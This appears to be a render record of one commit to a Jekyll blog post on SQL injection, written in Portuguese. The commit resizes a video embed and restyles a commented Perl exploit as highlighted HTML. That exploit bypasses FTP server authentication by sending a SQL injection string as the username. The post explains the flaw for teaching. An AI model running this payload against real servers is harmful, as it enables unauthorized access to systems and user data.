

Before and after one commit to Kingm0b/jekyll-minimal-theme, a Jekyll site: the page built from _posts/2017-02-27-sql-injection.md, in a window 1280 px wide and 900 px high, scrolled down 4214 px, cut to the strip 102-900 px from the top of the window. Shown: the whole strip, without its empty margins (266-1135 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Add files via upload

````diff
--- a/_posts/2017-02-27-sql-injection.md
+++ b/_posts/2017-02-27-sql-injection.md
@@ -116,7 +116,7 @@
 
 Aos 4:20 deste vídeo, é demonstrado a utilização de um exploit que explora essa falha:
 
-<iframe width="854" height="480" src="https://www.youtube.com/embed/s5EtYRiMf_o?ecver=1" frameborder="0" allowfullscreen></iframe>
+<iframe width="780" height="480" src="https://www.youtube.com/embed/s5EtYRiMf_o?ecver=1" frameborder="0" allowfullscreen></iframe>
 
 
 Em uma simples análise do exploit utilizado no vídeo:
@@ -125,22 +125,21 @@
 
 É possível perceber a simplicidade da exploração da falha:
 
-```
-$host = $ARGV[0]; # Variável $host recebe o endereço IP do servidor á ser atacado
+<pre style="background:#000;color:#f8f8f8"><span style="color:#3e87e3">$host</span> = <span style="color:#3e87e3">$ARGV</span>[0]; <span style="color:#aeaeae;font-style:italic"># Variável $host recebe o endereço IP do servidor á ser atacado</span>
 
-# Variável $user é inicializada com pedaço de código SQL que deverá 'confundir'
-# processo de autenticação no lado do servidor:
-$user = "USER %') and 1=2 union select 1,1,uid,gid,homedir,shell from users; --";
-$pass = '1';
+<span style="color:#aeaeae;font-style:italic"># Variável $user é inicializada com pedaço de código SQL que deverá 'confundir'</span>
+<span style="color:#aeaeae;font-style:italic"># processo de autenticação no lado do servidor:</span>
+<span style="color:#3e87e3">$user</span> = <span style="color:#65b042">"USER %') and 1=2 union select 1,1,uid,gid,homedir,shell from users; --"</span>;
+<span style="color:#3e87e3">$pass</span> = <span style="color:#65b042">'1'</span>;
 
-# Variável $ftp armazena descritor de conexão estabelecida com servidor FTP
-$ftp = Net::FTP->new("$host", Debug => 0) or die "[!] Cannot connect to $host";
+<span style="color:#aeaeae;font-style:italic"># Variável $ftp armazena descritor de conexão estabelecida com servidor FTP</span>
+<span style="color:#3e87e3">$ftp</span> = Net::FTP<span style="color:#e28964">-></span>new(<span style="color:#65b042">"<span style="color:#8a9a95">$host</span>"</span>, <span style="color:#3387cc">Debug </span>=> 0) <span style="color:#e28964">or</span> <span style="color:#e28964">die</span> <span style="color:#65b042">"[!] Cannot connect to <span style="color:#8a9a95">$host</span>"</span>;
 
-# O login malicioso é realizado, perceba que nome de usuário é simplesmente
-# o conteúdo de $user
-$ftp->login("$user","$pass") or die "\n\n[!] Couldn't ByPass The authentication ! ", $ftp->message;
-print "\n[*] Connected To $host";
-```
+<span style="color:#aeaeae;font-style:italic"># O login malicioso é realizado, perceba que nome de usuário é simplesmente</span>
+<span style="color:#aeaeae;font-style:italic"># o conteúdo de $user</span>
+<span style="color:#3e87e3">$ftp</span><span style="color:#e28964">-></span>login(<span style="color:#65b042">"<span style="color:#8a9a95">$user</span>"</span>,<span style="color:#65b042">"<span style="color:#8a9a95">$pass</span>"</span>) <span style="color:#e28964">or</span> <span style="color:#e28964">die</span> <span style="color:#65b042">"<span style="color:#ddf2a4">\n</span><span style="color:#ddf2a4">\n</span>[!] Couldn't ByPass The authentication ! "</span>, <span style="color:#3e87e3">$ftp</span><span style="color:#e28964">-></span>message;
+<span style="color:#dad085">print</span> <span style="color:#65b042">"<span style="color:#ddf2a4">\n</span>[*] Connected To <span style="color:#8a9a95">$host</span>"</span>;
+</pre>
 
 
 
````
